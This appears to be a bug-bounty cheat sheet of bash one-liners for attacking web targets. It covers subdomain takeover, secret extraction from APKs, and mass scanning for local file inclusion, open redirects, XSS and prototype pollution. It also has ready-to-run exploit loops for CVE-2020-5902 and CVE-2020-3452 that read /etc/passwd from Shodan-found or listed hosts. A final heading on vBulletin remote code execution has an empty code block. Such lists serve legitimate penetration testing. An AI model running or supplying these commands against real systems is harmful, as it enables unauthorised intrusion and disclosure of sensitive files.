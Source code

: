 ```bash
```
**Extract subdomains from IP range**
```bash
nmap IP_range | grep "domain" | awk '{print $5}'
```
**Find subdomains and takeover**
```bash
subfinder -d {target} >> domains ; assetfinder -subs-only {target} >> domains ; amass enum -norecursive -noalts -d {target} >> domains ; subjack -w domains -t 100 -timeout 30 -ssl -c ~/fingerprints.json -v 3 >> takeover ;
```
**Extract juicy info from unpacked APK**
```bash
apktool d apk;grep -EHim "accesskey|admin|aes|api_key|apikey|checkClientTrusted|crypt|http:|https:|password|pinning|secret|SHA256|SharedPreferences|superuser|token|X509TrustManager|insert into" APKfolder
```
**Gather all urls, send to burp**
```bash
cat hosts | sed 's/https\?:\/\///' | gau > urls.txt
cat urls.txt | grep -P "\w+\.js(\?|$)" | sort -u > jsurls.txt
ffuf -mc 200 -w jsurls.txt:HFUZZ -u HFUZZ -replay-proxy http:127.0.0.1:8080
```
**Extract all javascript links from a domain using gau and grep**
```bash
echo domain | gau | grep -Eo "https?://\S+?\.js" 
```
**Local File Inclusion**
```bash
gau domain.tld | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P 25 sh -c 'curl -s "%" 2>&1 | grep -q "root:x" && echo "VULN! %"'
```
**Open-redirect**
```bash
export LHOST="http://localhost"; gau $1 | gf redirect | qsreplace "$LHOST" | xargs -I % -P 25 sh -c 'curl -Is "%" 2>&1 | grep -q "Location: $LHOST" && echo "VULN! %"'
```
```bash
cat waybackurl.txt | gf url | tee url-redirect.txt && cat url-redirect.txt | parallel -j 10 curl --proxy http://127.0.0.1:8080 -sk > /dev/null
```
**XSS**
```bash
gospider -S targets_urls.txt -c 10 -d 5 --blacklist ".(jpg|jpeg|gif|css|tif|tiff|png|ttf|woff|woff2|ico|pdf|svg|txt)" --other-source | grep -e "code-200" | awk '{print $5}'| grep "=" | qsreplace -a | dalfox pipe | tee result.txt
```
**Prototype Pollution**
```bash
sed 's/$/\/?__proto__[testparam]=exploit\//' alive.txt | page-fetch -j 'window.testparam == "exploit"? "[VULNERABLE]" : "[NOT VULNERABLE]"' | sed "s/(//g" | sed "s/)//g" | sed "s/JS //g" | grep "VULN"
```
**CVE-2020-5902**
```bash
shodan search http.favicon.hash:-335242539 "3992" --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host do ;do curl --silent --path-as-is --insecure "https://$host/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd" | grep -q root && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n";done
```
**CVE-2020-3452**
```bash
while read LINE; do curl -s -k "https://$LINE/+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../" | head | grep -q "Cisco" && echo -e "[${GREEN}VULNERABLE${NC}] $LINE" || echo -e "[${RED}NOT VULNERABLE${NC}] $LINE"; done < domain_list.txt
```
**vBulletin 5.6.2 - 'widget_tabbedContainer_tab_panel' Remote Code Execution**
```bash
```